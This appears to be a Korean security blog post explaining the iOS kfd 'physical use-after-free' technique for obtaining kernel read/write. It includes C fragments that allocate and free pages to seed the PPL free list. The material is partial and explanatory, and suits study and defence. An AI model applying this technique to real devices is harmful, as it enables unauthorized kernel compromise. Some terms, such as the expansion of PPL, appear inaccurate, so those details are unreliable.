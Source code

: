 ```yaml
---
title: "[iOS] iOS에서 KTRW를 우회하여 커널을 읽고 쓸 수 있는 kfd"
excerpt: "puaf에 대하여..."

categories:
  - Security
tags:
  - [Security, iOS]

permalink: /Security/puaf/

toc: true
toc_sticky: true

date: 2024-09-01
last_modified_at: 2024-09-01
---
```

```
**TL;DR**
puaf 이용하여 free된 PTE L3 물리 페이지으로부터 커널 읽기/쓰기 권한을 가져올 수 있다.
```

# puaf를 이용하여 권한을 가져온 상태를 정의하자
puaf는 Physical Use Afer Free의 약어로, 물리주소에서 일어나는 UAF다.<br>
댕글링 포인터를 이용하여 특정 Page Table Entry의 AP 비트를 이용해 읽고 쓰는 권한을 갖게 하는 것이다.<br>
User Process에서 위의 과정이 일어나게 되고 free()한 후에 커널이 이를 사용하게 하여 커널의 R/W 권한을 가져오게 된다.<br>
<br>
이때 유의해야할 점으로 Page Preservation Layer에서 사용할 수 있는 free()된 리스트가 부족하게 되면,<br>
PPL은 pmap_mark_page_as_ppl_page_internal()를 호출하게 된다.<br>
이때 PPL은 일반 커널에서 페이지를 요청하기 때문에 PPL 매커니즘에 의해 커널 패닉을 발생시킨다.<br>
따라서 PPL을 사용할때 free() 리스트의 크기를 늘려야 한다.

## 위의 과정을 코드로 보자 
1. PPL 소유 페이지 할당
```c
while (true) {
        // address + 2^25(1ull << 25)
        address += l2_block_size;
        if (address < min_address) {
            continue;
        }

        if (address >= max_address) {
            break;
        }

        /// vm_allocate()를 이용해서 PPL_pages를 원하는 크기만큼 할당
        kern_return_t kret = vm_allocate(mach_task_self(), &address, pages(1), VM_FLAGS_FIXED);
        if (kret == KERN_SUCCESS) {
            /// 사용자 공간에서 인식가능하도록 하는 과정
            memset((void*)(address), 'A', 1);
            addresses[given_ppl_pages] = address;
            /// 최대 페이지 수로 설정한 10000에 도달하면 break
            if (++given_ppl_pages == given_ppl_pages_max) {
                break;
            }
        }
    }
```

2. 할당된 PPL_pages에 매핑 존재하는지 확인하고, 없으면 L3 테이블 할당(내부적으로 동작)

3. 할당을 해제하면 Free 리스트에 들어감
```c
/// 할당 메모리 해제
    for (u64 i = 0; i < given_ppl_pages; i++) {
        assert_mach(vm_deallocate(mach_task_self(), addresses[i], pages(1)));
    }

    print_u64(given_ppl_pages);
```


```
즉, 반복적으로 해당 영역을 살피면서 AP비트를 확인하는 것이다.
```

